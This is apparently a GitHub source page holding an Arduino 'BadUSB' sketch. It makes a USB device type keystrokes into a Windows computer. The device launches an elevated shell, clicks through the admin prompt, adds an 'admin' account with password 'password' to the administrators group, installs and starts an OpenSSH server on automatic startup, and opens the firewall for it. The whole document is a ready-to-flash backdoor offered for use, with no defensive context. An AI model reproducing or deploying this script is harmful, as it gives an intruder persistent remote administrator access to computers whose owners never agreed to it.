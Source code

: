 # BadUSB---Admin-SSH
BadUSB - Admin &amp; SSH


#include<Keyboard.h>
#define KEY_DELAY 50 //delay between keystrokes for slow computers

//a command line to execute
const char command0 [] = "powershell -Command Start-Process cmd -Verb RunAs"; // Launches cmd as admin
const char command1 [] = "net user admin password /add"; // Creates a new user by the name "admin" with password "password"
const char command2 [] = "net localgroup administrators admin /add"; // Adds the new user "admin" to the administrators group
const char command3 [] = "powershell Start-Process powershell -Verb runAs"; // Launches PowerShell as admin
const char command4 [] = "Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0"; // Installs OpenSSH server
const char command5 [] = "Start-Service sshd"; // Starts the SSH Server
const char command6 [] = "Set-Service -Name sshd -StartupType 'Automatic'"; // Sets the SSH service to start automatically
const char command7 [] = "Enable-NetFirewallRule -Name *OpenSSH-Server*"; // Creates a Firewall rule for SSH
const char command8 [] = "taskkill /IM cmd.exe"; // Closes CMD
const char command9 [] = "exit"; // Closes PowerShell


void setup() {
  Keyboard.begin();
  // I recommend that you leave a short delay before start while prototyping.
  // It will will give you some time to reprogram a board before it starts typing.
  delay(10000);
}

void loop() {
  //Pressing Win+r shortcut
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  delay(KEY_DELAY);
  Keyboard.releaseAll();
  delay(KEY_DELAY*5); //Inputting cmd command
  Keyboard.println("cmd");
  delay(KEY_DELAY*5); //A delay to ensure that cmd window has been opened
  delay(2000);
  Keyboard.println(command0); // Launches cmd as admin
  delay(5000);
  Keyboard.press(0x82);
  Keyboard.press('Y'); //Presses Left Alt + Y to select Yes at the pop-up prompt
  delay(KEY_DELAY);
  Keyboard.releaseAll();
  delay(3000);
  Keyboard.println(command1); // Creates a new user by the name "admin" with password "password"
  delay(2000);
  Keyboard.println(command2); // Adds the new user "admin" to the administrators group
  delay(2000);
  Keyboard.println(command3); // Launches PowerShell as admin
  delay(3000);
  Keyboard.press(0x82);
  Keyboard.press('Y'); //Presses Left Alt + Y to select Yes at the pop-up prompt
  delay(KEY_DELAY);
  Keyboard.releaseAll();
  delay(3000);
  Keyboard.println(command4); // Installs OpenSSH server
  delay(15000);
  Keyboard.println(command5); // Starts the SSH Server
  delay(2000);
  Keyboard.println(command6); // Sets the SSH service to start automatically
  delay(2000);
  Keyboard.println(command7); // Creates a Firewall rule for SSH
  delay(2000);
  Keyboard.println(command8); // Closes CMD
  delay(2000);
  Keyboard.println(command9); // Closes PowerShell
  delay(1000);
}
